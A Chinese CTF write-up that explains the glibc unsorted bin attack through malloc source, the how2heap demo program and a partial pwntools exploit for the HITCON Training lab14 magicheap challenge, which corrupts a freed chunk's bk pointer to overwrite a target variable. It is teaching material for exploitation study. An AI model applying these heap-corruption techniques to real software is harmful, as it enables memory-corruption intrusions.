






# 2018-12-18-HITCON Training lab14 magic heap -  unsorted bin attack

[TOC]

当我们可以控制unsorted bin中chunk的bk时，修改bk为&target_value-0x10，将该chunk从unsorted bin中unlink（非ulink宏）时，就可以实现修改target_value 为&main_arena.top。

本文主要参考ctf-wiki，简单记录一下从unsorted bin中malloc chunk时相关数据结构的变化过程、结合how2heap简述unsorted bin attack的原理、最后记录一下HITCON Training lab14 magic heap的writeup。

## 0x01 从unsorted bin中malloc chunk出来时发生了什么？

调用malloc函数时，如果unsorted bin中有大小合适的chunk，会将该chunk unlink，对应的关键源码/汇编代码如下：

```c
_int_malloc{
    [...]
for (;; )     
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))  // 反向遍历 unsorted bin 的双向循环链表，遍历结束的条件是循环链表中只剩下一个头结点。
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",
                             chunk2mem (victim), av);
          size = chunksize (victim);

          /*
             If a small request, try to use last remainder if it is the
             only chunk in unsorted bin.  This helps promote locality for
             runs of consecutive small requests. This is the only
             exception to best-fit, and applies only when there is
             no exact fit for a small chunk.
           */

          if (in_smallbin_range (nb) &&      
              bck == unsorted_chunks (av) &&
              victim == av->last_remainder &&
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))
            {
              [...]
            }

          /* remove from unsorted list */   // unsorted bin attack if bck is fake, we can change bck->fd
          unsorted_chunks (av)->bk = bck;    // 更新bins[1]指向victim的bk
          bck->fd = unsorted_chunks (av);    // 更新bck（victim的bk）的fd指向arena.top,main_arena+88 

```

为了更加清楚的看到这一过程，编写脚本unsortedbin-attack.py构造两个chunk，查看malloc的过程：

```python
log.info("1. create 0-4 chunks")
malloc(size) # 0
malloc(size) # 0 1
malloc(size) # 0 1 2
malloc(size) # 0 1 2 3
malloc(size) # 0 1 2 3 4
# gdb.attach(io, "directory /root/Pwn/glibc/glibc-2.23/malloc \n break __libc_free\n break _int_free\n break unlink\n break user_show")
log.info("2. free 0 2 chunk")
free(0)   
free(2)
gdb.attach(io, "directory /root/Pwn/glibc/glibc-2.23/malloc \n  break user_show")
log.info("3. get chunk from unsorted bin")
malloc(size)
malloc(size)
log.info("4. show")
malloc(size)
# show
io.sendlineafter(" Input your choice:", "4")
io.interactive()
```

1. free后得到两个unsorted bin中的chunk，其中main_arena.bins[0]即fd用于向unsorted bin中增加chunk，main_arena.bins[1]即bk用于便利unsorted bin，从中取出chunk。因此，free(0) @0x603000的chunk0，再free(1) @0x603120的chunk1后，main_arena.bins[0]指向最后一次加入的chunk1，main_arena.bins[1]指向第一次加进去的chunk0。malloc时就满足了unsorted bin的FIFO特性。
   

2. malloc时，从main_arena.bins[1]即bk开始遍历（也就是unsorted bin中最后一个chunk开始遍历），若大小符合，取出该chunk返回，并将该chunk从unsorted bin list中unlink。此时，更新main_arena.bins[1]和bck->fd（对应源码中的两条更新语句）。（本来这里想了很久，后来猛然发现这就是更新双向链表的基本操作啊！）
   

3. 继续malloc，取出unsorted bin中的剩下的一个chunk，执行unsorted_chunks (av)->bk = bck;后，bins[1]更新：
   

   执行bck->fd = unsorted_chunks (av)后，由于bck就是&top，因此bins[0]更新。更新前：

   

   更新后：

   

## 0x02 unsorted bin attack原理

从上面的过程我们可以发现，从unsorted bin中malloc chunk出来时，根据bins[1]索引遍历unsorted bin。在取出chunk后，将该chunk unlink时，根据更新bins[1]为victim->bk，并更新bck->fd（victim->bk->fd）为&top，这样来实现unlink chunk。

因此**，当 unsorted bin 中的chunk unlink（非调unlink宏）时，如果我们可以控制中chunk的`bk`**为fake_bk，就可以向fake_bk->fd写入&top。因此，unsorted bin attack**达到的效果是可以修改某个地址的值为一个较大的值**，常见的利用姿势是修改：

- glibc中global_max_fast
- 程序运行中的一些变量的值。

## 0x03 example: how2heap unsorted bin attack

概念是非常抽象的东西，因此以how2heap为例，简单阐述利用过程。源码如下，程序的目的是修改栈中的某个变量的值。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

假设栈中的某个变量地址是&target_value，并且我们已经通过malloc和free在unsorted bin中得到了一个chunk。

1. 首先通过堆溢出控制unsorted bin 中chunk'bk to &target_value -0x10。

2. malloc从unsorted bin中取出该chunk后发现，target value的值更新了，变成了&top。
   

整个利用的过程可以参考ctf-wiki的图，伪造了fake_bk后，修改了两个值：bins[1]指向fake_bk，fake_bk->fd指向top：

这里提一个小问题（目前觉得对做题没什么帮助，可以忽略）：从unsorted bin中取出chunk时，会将该chunk从unsorted bin中移除。为什么这里的unsorted bin的FD（bins[0]）还是指向的该chunk呢？

从unsorted bin中unlink的过程涉及到bins[1]和bck->fd的修改。bins[1]的修改和这个问题无关，当unsorted bin中只有一个chunk时，bck就是&top，因此会修改bins[0]指向自身，那么这个chunk就没了。当unsorted bin中不止一个chunk时，bins[0]是不会改变的，始终指向新加入的chunk。因此在伪造了fake_bk后，本质上就是cheat ptmalloc2，意味着chunk后面还有新的chunk，因此bins[0]的值是不会改变的，始终指向新加入的chunk，只是这里恰巧新加入的chunk也是最后一个chunk而已。

## 0x04 HITCON Training lab14 magic heap

这题作为unsorted bin的教学题，直接看源码吧：https://github.com/thinkycx/pwn/blob/master/HITCON-Training/lab14/magicheap.c

edit heap时存在堆溢出，程序要求我们只需要修改bss段上的magic变量就可以拿到flag。利用的思路：创建unsorted bin，然后edit 修改bk为&magic-0x10。将该chunk从unsorted bin中malloc出来就可以实现magic变量的修改。

修改时的关键汇编代码如下：



部分exploit：

```python
def pwn(io):
    create_heap(0x10,"thinkycx") # 0
    create_heap(0x80, "thinkycx") # 0 1
    create_heap(0x10, "thinkycx") # 0 1 2
    # gdb.attach(io,'break *0x0000000000400CA2')
    del_heap(1)
    
    unsortedbin_payload = "a"*0x10 + p64(0) + p64(0x91) + p64(0xdeadbeafdeadbeaf) +\
            p64(elf.symbols['magic']-0x10)
    edit_heap(0, 6*0x8,  unsortedbin_payload)
    create_heap(0x80, "thinkycx")
    io.recvuntil("Your choice :")
    io.sendline("4869")
```

